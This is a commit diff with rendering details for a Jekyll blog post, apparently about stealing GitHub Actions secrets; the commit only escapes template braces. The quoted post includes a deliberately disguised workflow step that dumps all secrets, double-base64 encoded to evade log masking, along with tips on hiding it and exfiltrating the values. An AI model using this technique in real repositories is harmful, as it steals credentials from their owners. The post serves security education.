

Before and after one commit to nopcorn/nopcorn.github.io, a Jekyll site: the page built from _posts/2026-02-12-github-actions-secrets.md, in a window 1280 px wide and 1400 px high, scrolled down 1279 px. Shown: the whole window at 94% size, without its empty margins (241-1199 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
damn curlies

````diff
--- a/_posts/2026-02-12-github-actions-secrets.md
+++ b/_posts/2026-02-12-github-actions-secrets.md
@@ -40,7 +40,7 @@ Consider this vulnerable workflow step:
 ```yaml
 - name: Deploy to production
   run: |
-    echo "${{ secrets.SSH_PRIVATE_KEY }}" > /tmp/deploy_key
+    echo "$&#123;{ secrets.SSH_PRIVATE_KEY }}" > /tmp/deploy_key
     chmod 600 /tmp/deploy_key
     ssh -i /tmp/deploy_key -o StrictHostKeyChecking=no deploy@prod.example.com "deploy_script.sh"
 ```
@@ -64,7 +64,7 @@ jobs:
     runs-on: ubuntu-latest
     steps:
       - name: nothing to see here
-        run: echo '${{ toJSON(secrets) }}' | base64 | base64 # bypass log masking
+        run: echo '$&#123;{ toJSON(secrets) }}' | base64 | base64 # bypass log masking
 ```
 
 This writes all available secrets to the workflow logs and bypasses GitHub's secret masking. In a real engagement you would blend the workflow name and step names into something ordinary, and you would probably exfiltrate the values to a server you control rather than leaving them in the logs.
@@ -99,7 +99,7 @@ Consider a PR that adds a step like this:
 ```yaml
 - name: Add API key to local config
   env:
-    API_KEY: ${{ secrets.API_KEY }}
+    API_KEY: $&#123;{ secrets.API_KEY }}
   run: |
     sed "s/PLACEHOLDER_API_KEY/$API_KEY/" settings.conf
 ```
````
